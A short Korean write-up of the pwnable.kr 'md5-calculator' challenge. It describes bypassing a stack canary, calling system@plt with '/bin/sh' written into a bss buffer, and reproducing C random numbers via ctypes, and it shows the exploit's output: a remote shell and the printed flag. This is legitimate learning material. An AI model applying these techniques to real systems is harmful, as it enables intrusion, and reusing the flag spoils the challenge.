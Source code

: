 자세한 설명은 주석 참조. 그런데 payload에 **ctypes**라는 놈이 껴있다(???). 얘는 c 스타일로 함수라던가 라이브러리를 부를 수 있게 도와주는 모듈이다. 처음알았는데 python과 c가 난수를 발생시키는 방법이 다르다고 한다(ㅎㅎ) 그것도 모르고 완전완전 뻘짓하다가 겨우 알아냈다



`canary` 가볍게 패스해주시고, `system@plt`넣어 주시고 `/bin/sh`는 어떻게 넣었냐?? 하면 그냥 bss에 썼다. payload를 입력 받는 변수는 `g_buf`였고, 얘는 `bss`에 있기 때문에 payload 써주고 마지막에 `/bin/sh` 넣어주고 `system`의 인자로 `bss`상의 위치를 잘 전달하면 끝!



``` bash
minibeef@argos-edu:~/pwnable.kr/md5-calculator$ python hash-exploit.py
[+] Opening connection to pwnable.kr on port 9002: Done
[*] Switching to interactive mode
Welcome! you are authenticated.
Encode your data with BASE64 then paste me!
MD5(data) : f9cf9f3de47127de0e922b45a2a33883
$ ls
flag
log
log2
md5calculator
super.pl
$ cat flag
Canary, Stack guard, Stack protector.. what is the correct expression?
```



쓸만한 문제였다.
